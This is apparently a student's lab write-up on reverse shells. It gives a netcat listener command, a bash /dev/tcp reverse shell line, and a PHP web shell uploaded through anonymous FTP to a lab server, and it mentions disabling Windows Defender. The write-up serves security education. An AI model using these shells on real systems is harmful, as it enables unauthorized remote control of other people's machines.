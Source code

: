 ### Overview
---------
This lab we were continuing to work with web shells, however we are now switching to reverse shells. We were first tasked with connecting to a machine called sec335-rocky and creating a reverse shell to connect to a netcat listener that was running. From there we were tasked with uploading a reverse shell to the pippen system that was exploited last week. Following this we were tasked with running a reverse shell on windows but had to first turn of windows defender to do this. Finally, we were tasked with creating a reverse shell using python3. I will go furth into detail on the techniques that I used to complete this lab below. 

### Reflection
------
This was my first time taking a dive into the world of reverse shells and it was a lot of fun and left me wanting more. I definetaly want to explore these more and I feel like it would be an incredibly useful tool to have under my belt later on. I was a little bit confused on how to create a reverse shell using a php as I have not explored how to use php much however, a few resouces online helped me understand that I was essentially using a bash script within a php script. Understanding this concept made everything much easier. 

### Bash Reverse Shell 
------
The first reverse shell that we used was a somewhat simple one just getting us warmed up for the rest of the lab. To start we ran a netcat listener on one terminal using the command `nc -nlvp 4449` meaing that we were listening on port 4449. On another terminal we first logged into our rocky system using ssh and then we ran the command `/bin/bash -i >& /dev/tcp/10.0.17.129/4449 0>&1`. The IP address in that command is the DHCP address of our host machine and the 4449 is the port that we specified when opening the netcat listener. From there we were connected and able to control the rocky machine from our host machine. 

### Uploading a Reverse Shell
------
For this part of the lab, we were tasked with uploading a reverse shell to the pippen server that we exploited last week. To do this, I first had to create the php script that would be uploaded. To do this I used the command in the section above and just built a very simple php script around that, this is what that looked like:

      <?php
      $output1 = exec("/bin/bash -i >& /dev/tcp/10.0.17.129/4449 0>&1");
      
As mentioned in the reflection I know very little php and would love to explore this further. Now with that created I had to login to the Pippen system using the FTP server that I am able to exploit with the anonymous user logon. Once logged in, I navigated to the upload directory and uploaded this script. From there I started another netcat listener using the same port as above. Once the netcat listener was running I navigated to the URL of the file that I uploaded on the pippen FTP server and was connected to the machine. 

### Powershell Reverse Shell
-------
